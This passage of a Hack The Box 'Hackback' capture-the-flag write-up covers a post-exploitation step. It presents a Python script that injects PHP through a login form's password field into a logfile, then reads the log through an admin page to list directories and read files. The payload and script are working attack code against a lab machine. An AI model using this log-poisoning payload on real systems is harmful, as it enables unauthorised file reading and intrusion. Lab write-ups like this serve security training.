 I tried unsuccessfully to get a reverse shell but realized that all the common functions used for RCE appeared to be blocked. There's also an outbound firewall configured on the box so we can't get a connection back.

Listing files and directories wasn't blocked and I could also read files. I wrote a script that does the following:

- Cleans up the logfile by calling the `init` action
- If only one parameter is specified, it'll use the `scandir` function to list the directory contents
- If two parameters are specified, it'll read the directory + file with the `file_get_contents` function

Warning, bad python code below:

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79");
print r.status_code

if len(sys.argv) == 2: # List directories
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
		"username": "test@test.com",
		"password": "<?php print_r(scandir('%s')); ?>" % sys.argv[1],
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text

elif len(sys.argv) == 3: # Fetch a file	
	data = {
		"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
		"username": "test@test.com",
		"password": "<?php echo(file_get_contents('%s')); ?>" % (sys.argv[1]+'/'+sys.argv[2]),
		"submit": ""
	}
	r = requests.post("http://www.hackthebox.htb", data=data)
	print r.status_code

	# Get output
	r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fe02f7f54552f5f7544d9d8963b4b88f43d2408985c12999752ee5c0e7fc3e79", allow_redirects=False);
	print r.text
	with open("out.txt", "wb") as f:
		f.write((r.text.encode('utf-16')))
```
